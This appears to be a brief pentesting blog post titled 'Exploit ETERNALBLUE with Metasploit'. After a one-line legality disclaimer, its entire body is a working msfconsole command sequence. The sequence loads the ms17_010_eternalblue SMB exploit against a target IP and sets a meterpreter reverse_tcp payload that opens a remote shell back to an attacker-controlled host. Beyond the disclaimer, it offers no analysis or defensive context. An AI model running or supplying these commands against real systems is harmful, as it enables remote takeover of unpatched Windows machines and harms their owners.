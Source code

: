 ```yaml
---
layout: post
title: "Exploit ETERNALBLUE with Metasploit"
tags: [metasploit,eternalblue,smb,pentesting,windows]
---
```


> **Disclaimer**: Only use this in your own environment.
> Using this exploit against other people's systems is *illegal*!

Run `msfconsole`:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set rhost <TARGET_IP>
set lhost <ATTACKER_IP>
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

---

